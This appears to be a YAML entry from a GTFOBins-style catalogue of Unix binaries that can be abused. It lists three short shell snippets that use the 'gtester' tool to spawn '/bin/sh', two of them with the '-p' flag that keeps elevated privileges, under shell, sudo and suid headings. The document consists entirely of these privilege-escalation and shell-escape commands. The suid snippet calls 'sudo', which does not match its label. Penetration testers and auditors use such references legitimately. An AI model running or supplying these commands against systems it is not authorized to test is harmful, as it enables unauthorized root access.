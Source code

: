 ```yaml
---
functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo '#!/bin/sh' > $TF
        echo 'exec /bin/sh -p 0<&1' >> $TF
        chmod +x $TF
        gtester -q $TF
  sudo:
    - code: |
        TF=$(mktemp)
        echo '#!/bin/sh' > $TF
        echo 'exec /bin/sh 0<&1' >> $TF
        chmod +x $TF
        sudo gtester -q $TF
  suid:
    - code: |
        TF=$(mktemp)
        echo '#!/bin/sh -p' > $TF
        echo 'exec /bin/sh -p 0<&1' >> $TF
        chmod +x $TF
        sudo gtester -q $TF
---
```

